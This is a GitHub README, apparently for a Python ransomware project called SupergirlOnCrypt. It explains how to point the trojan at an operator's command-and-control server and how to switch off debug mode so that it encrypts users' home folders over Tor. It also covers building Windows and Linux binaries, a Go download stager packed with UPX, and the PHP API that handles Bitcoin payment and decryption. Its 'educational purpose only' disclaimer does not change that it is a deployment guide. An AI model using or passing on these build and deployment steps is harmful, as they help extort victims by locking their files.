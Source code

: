# SupergirlOnCrypt :heart: :punch: :boom:

![Project Logo](https://thoughtful-dev.com/projects/supergirloncrypt/header.jpg)

**You currently cant decrypt Files unless you set the `locked` column in the database for this PC to `0`. I will try to add something other than Bitcoin Payment. Maybe some Supergirl Questions?**

**For EDUCATIONAL PURPOSE ONLY**

This is a Crypto Trojan written in Python which can be packed using Pyinstaller... 
and i :heart: Supergirl so there you go.

## Content
1. [Requirements](#requirements)
2. [Setup](#setup)
3. [Building](#building)
---
![Image while Building](https://thoughtful-dev.com/projects/supergirloncrypt/term.png)
---
## Requirements

Both Windows AND Linux must have Python >= 3.5 installed to build the Executable/Binary.

Optionally you need the Golang compiler if you want to use the Go Stager because the Binary with Pyinstaller is quite large (~60mb - Linux , 30mb - Windows)
(Go Stager is only ~700kb).

---
## Setup

We will generate the API´s public and private key in this process.
So if you first generate a binary for Linux as shown here then you have to copy the whole repository folder to the windows box and only choose to recreate the `venv`.
## The Trojan

1. Change the API_URL in App/Config.py to your C&C Server URL
2. Disable DEBUG_MODE (Leave it on if your API is running locally because otherwise Tor cant reach your local network)
3. Optionally change your File Types
4. Build Executables/Binary for Windows and/or Linux
5. Setup API

## Overview of DEBUG True vs False
Debug On | Debug Off
------------ | -------------
Creates a logfile | No logfile
Does not user Tor | Uses Tor to communicate
Encrypts Folder `./test_files` | Encrypts Users HomeFolder

**If you are Testing leave the DEBUG MODE ON OR USE A VM**


## Building

### Linux
```
$ cd Scripts
$ ./supergirl.sh setup python3
$ ./supergirl.sh build
```
**Now copy the whole folder to the Windows VM/Machine where you want to build the Windows Executable. When running the `supergirl.ps1` ONLY recreate the `venv` and NOT the Keys since they are already generated from our Linux Setup.** *

*Optionally you can also clone the Repo to the Windows Machine and only replace `API/bin/private.key` and `App/res/server.public.key`

**This also applies vice versa**

### Windows
```
PS> cd Scripts
PS> .\supergirl.ps1 -mode setup -path C:\\...\\python.exe
PS> .\supergirl.ps1 -mode build
```

### Building Stager
1. Upload your Binary which you gathered from the previous step
2. Go to `./Stagers/Go` and open `main.go`
3. Change line 39 `var url string = "your-direct-download-url-here"`

#### Building a Linux Stager
4. `GOOS=linux go build -ldflags="-s -w" -o stager main.go`

#### Building a Windows Stager
5. `GOOS=windows GOARCH=386 go build -ldflags="-s -w" -o stager.exe main.go`

6. Optionally compress the Stager(.exe) binary with upx

7. LINUX: `upx --ultra-brute -o compressed_stager stager`
7. WINDOWS: `upx.exe --ultra-brute -o compressed_stager.exe stager.exe`

8. Wait...
9. ???
10. Profit.


## API

Since we communicate with our API we need to set it up. The API(located in ./API duhh) is written in PHP so any Linux /Win Server will do.
On your Ubuntu C&C Server run:
```
$ sudo add-apt-repository ppa:ondrej/php
$ sudo apt update
$ sudo apt install apache2 php7.1 libapache2-mod-php7.1 php7.1-mbstring php7.1-sqlite3 php7.1-xml
$ sudo apt install composer unzip
```
Now copy the API Folder to your Server in the www root

```
$ cd /var/html
$ composer install
```
We need to install python to decrypt our keys if a user wants to decrypt
```
$ sudo apt install python3 python3-dev python3-pip
$ pip3 install cryptography
```
Your API should now be ready on http://ip/public (should respond with 501)

**I wont show you how to setup a Tor hidden Service**



# Disclaimer

### FOR EDUCATIONAL PURPOSE ONLY I AM NOT RESPONSIBLE FOR ANYTHING
```
MIT License

Copyright (c) 2017 ThoughtfulDev

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```
---
I have no Idea if you understand this README. 

